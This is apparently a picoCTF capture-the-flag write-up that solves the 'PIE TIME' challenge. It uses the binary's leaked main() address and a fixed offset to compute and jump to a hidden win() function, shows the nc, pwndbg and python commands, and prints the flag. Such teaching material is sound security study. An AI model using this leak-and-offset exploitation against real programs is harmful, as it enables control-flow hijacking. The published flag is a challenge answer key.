# Day 27: PIE TIME picoCTF Binary Exploitation Writeup

Step-by-step guide to solving PIE TIME from picoCTF Binary Exploitation using PIE leak and offset calculation

Today we are tackling **PIE TIME** from picoCTF.



The challenge description does not say much:

> Can you try to get the flag? Beware we have PIE!

Now, I have never had pie in my life.

So if picoCTF is offering pie, I am listening.

As usual, the challenge gave us a remote netcat connection, a binary, and the source code.

Which means the program is probably not going to hand us dessert.

It is going to hand us memory problems and call it a meal.

## Testing the Program First

I started by connecting to the remote service with `nc` to see how the program behaves.

```bash
nc rescued-float.picoctf.net 53134
```



The program printed something interesting:

```text
Address of main: 0x5e9ff1d4133d
Enter the address to jump to, ex => 0x12345:
```

So the program gives us the address of `main()` and then asks us for an address to jump to.

Very normal.

Very safe.

Definitely the kind of thing every responsible program should ask strangers on the internet.

Now, when you do not know the answer, every answer is technically both correct and incorrect until you press enter.

Schrödinger’s payload.

The address is alive and dead until observed.

So instead of typing the boring example `0x12345`, I decided to stay on theme and enter something pie-looking:

```text
0x31415
```



And the program replied:

```text
Segfault Occurred, incorrect address.
```

So after observation, the cat was dead.

The process was also dead.

And my π address was apparently not delicious enough.

## Reading the Source Code

Now it was time to stop feeding the binary random numbers and actually read the source code.

```bash
cat vuln.c
```



The source code snitched immediately.

Two parts mattered the most.

First, the program prints the address of `main()`:

```c
printf("Address of main: %p\n", main);
```

So the address shown by the server is not decoration.

It is a leak.

The program is literally telling us:

```text
Here is where main() is loaded in memory right now.
```

The second important part is where the program reads our input and jumps to it:

```c
scanf("%lx", &val);
((void (*)())val)();
```

My beginner translation:

```text
Read an address from the user.
Treat that address like a function.
Jump to it.
```

So when I entered:

```text
0x31415
```

the program really tried to jump there.

The problem was that `0x31415` was not a valid place where useful program code existed, so the program crashed.

This means the challenge is not about overflowing a buffer.

It is about giving the program the correct address to jump to.

The obvious target is the function that prints the flag.

Usually in pwn challenges, that function is called something like:

```text
win()
```

And yes, this binary had one.

picoCTF really said:

“Here is a function that wins. Now calculate where it lives.”

## What PIE Means

Now the title started making sense.

The challenge says:

```text
Beware we have PIE!
```

PIE stands for **Position Independent Executable**.

From what I understood, PIE means the binary does not always load at the same memory address.

So if I find the address of `win()` on my laptop and blindly send that same address to the remote server, it probably will not work.

The whole binary moves around in memory.

But the important part is this:

```text
The base address changes.
The distance between functions stays the same.
```

So if I know where `main()` is during this run, and I know how far `win()` is from `main()`, I can calculate the real address of `win()`.

That became the plan:

```text
Find the offset between main() and win().
Use the leaked main() address from the server.
Calculate the real win() address.
Send that address.
```

So basically, PIE randomizes the house location.

But the kitchen is still the same distance from the front door.

We just need the front door address.

## Checking the Binary

First, I checked the binary with:

```bash
file vuln
```



This confirmed that we were dealing with a Linux executable.

Then I ran:

```bash
pwn checksec vuln
```



The important result was:

```text
PIE enabled
```

That confirmed the challenge title was not joking.

The program addresses change every run, so hardcoding a full address without using the leak would be like trying to find your classroom using last semester’s timetable.

Technically confident.

Completely useless.

## Finding main() and win()

Next, I opened the binary with pwndbg.

```bash
pwndbg ./vuln
```

Inside pwndbg, I listed the functions:

```gdb
info functions
```



I saw both:

```text
main
win
```

That was good.

The binary still had useful function names, so I did not have to go full detective mode yet.

First, I disassembled `win()`:

```gdb
disassemble win
```



This showed that `win()` starts at:

```text
0x12a7
```

Then I disassembled `main()`:

```gdb
disassemble main
```



This showed that `main()` starts at:

```text
0x133d
```

Now we have the local offsets:

```text
win  = 0x12a7
main = 0x133d
```

Because PIE is enabled, these are not the final runtime addresses.

They are offsets inside the binary.

But that is enough.

We just need the distance between them.

## Calculating the Offset

`main()` is at:

```text
0x133d
```

`win()` is at:

```text
0x12a7
```

So the distance is:

```text
0x133d - 0x12a7 = 0x96
```

In decimal:

```text
0x96 = 150
```

That means `win()` is `0x96` bytes before `main()`.

So the formula becomes:

```text
real win address = leaked main address - 0x96
```

That is the whole challenge.

Not overflow.

Not shellcode.

Not return addresses.

Just:

```text
main leaked
win needed
subtract 0x96
```

Which somehow feels easy and annoying at the same time.

Because now pwn has become math.

And math has never respected my peace.

## Calculating the Real win() Address

I ran the remote service again, and it gave me a fresh `main()` address:

```text
Address of main: 0x571508ac333d
```

Since PIE changes the address every run, I needed to use the address from that exact run.

The formula was:

```text
win = main - 0x96
```

So:

```text
0x571508ac333d - 0x96
```

I could do that manually.

But I also value my remaining brain cells.

So I used Python:

```bash
python3 -c 'print(hex(0x571508ac333d - 0x96))'
```



That gave:

```text
0x571508ac32a7
```

So this should be the real address of `win()` for that run.

## Sending the Address

I connected again to the remote service.

```bash
nc rescued-float.picoctf.net 53134
```

When it asked:

```text
Enter the address to jump to, ex => 0x12345:
```

I entered the calculated `win()` address:

```text
0x571508ac32a7
```



This time, instead of throwing the program into the void like my π address did, it jumped to the correct function.

And the flag printed.

## Flag

```text
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_f8845f06}
```

## Final Logic

The challenge came down to this:

```text
PIE is enabled, so full addresses change every run.
The program leaks main().
main() and win() always stay the same distance apart.
Find that distance locally.
Apply it to the leaked main() address remotely.
Send the calculated win() address.
```

The important calculation was:

```text
main = 0x133d
win  = 0x12a7

main - win = 0x96
```

So on the remote server:

```text
win = leaked main - 0x96
```

For my run:

```text
0x571508ac333d - 0x96 = 0x571508ac32a7
```

## Closing Thoughts

PIE TIME was different from the buffer overflow challenges.

There was no smashing the stack.

No spamming A’s.

No return address bullying.

This time, the program asked for an address and trusted me to provide one.

Bad idea.

The main lesson was that PIE randomizes where the binary loads, but it does not randomize the layout inside the binary.

So once the program leaked `main()`, the rest became address math.

Find `win()`.

Find `main()`.

Calculate the gap.

Use the leak.

Jump to victory.

No buffer overflow today.

Just subtraction.

Which is honestly worse, because at least buffer overflows let me blame C.

Here, if I get it wrong, that is just me losing a fight to hexadecimal.

